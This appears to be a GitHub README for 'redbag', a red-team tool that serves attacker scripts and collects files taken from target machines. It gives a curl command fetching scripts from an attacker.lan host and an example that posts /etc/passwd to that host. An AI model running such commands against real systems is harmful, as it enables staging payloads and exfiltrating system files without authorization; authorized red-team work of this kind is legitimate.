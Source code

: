 # redbag
A red team's toolbag.

Creates a webserver in the current directory that serves files out of `bin/`. Simply `curl http://attacker.lan:8080/bin/yourscripts.sh`.

Build an image of your target's filesystem by sending POST request multipart forms.
Example:
```
curl -F "/etc/passwd=@/etc/passwd" http://attacker.lan:8080/chroot
```
The result will be placed in `chroot/`.


## Roadmap
- bin follows symlinks and serves the actual file
- Add ability to send directory listings to the chroot, with proper file permissions
- Configure default programs linked to bin based on architecture
- Create basic shell scripts for sending and receiving files from target machine. (include in bin)